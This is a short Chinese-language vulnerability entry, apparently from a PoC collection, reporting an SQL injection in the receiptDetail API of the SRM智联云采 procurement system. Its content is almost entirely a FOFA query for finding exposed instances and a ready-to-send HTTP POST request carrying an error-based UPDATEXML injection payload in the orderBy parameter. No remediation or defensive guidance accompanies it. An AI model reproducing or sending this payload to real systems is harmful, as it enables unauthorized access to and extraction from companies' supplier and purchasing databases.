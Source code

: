 # SRM智联云采系统receiptDetail存在SQL注入漏洞
智互联(深圳)科技有限公司SRM智联云采系统针对企业供应链管理难题，及智能化转型升级需求，智联云采依托人工智能、物联网、大数据、云等技术，通过软硬件系统化方案，帮助企业实现供应商关系管理和采购线上化、移动化、智能化，提升采购和协同效率，进而规避供需风险，强化供应链整合能力，构建企业利益共同体。智互联(深圳)科技有限公司SRM智联云采系统receiptDetail存在SQL注入漏洞。

## fofa
```javascript
title=="SRM 2.0"
```

## poc
```java
POST /adpweb/api/srm/delivery/receiptDetail?orderBy=%28UPDATEXML%288058%2CCONCAT%280x2e%2C0x71707a7671%2C%28SELECT+%28ELT%288058%3D8058%2C1%29%29%29%2C0x71766a7671%29%2C3521%29%29 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```

![image-20241122151334246](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411221513324.png)

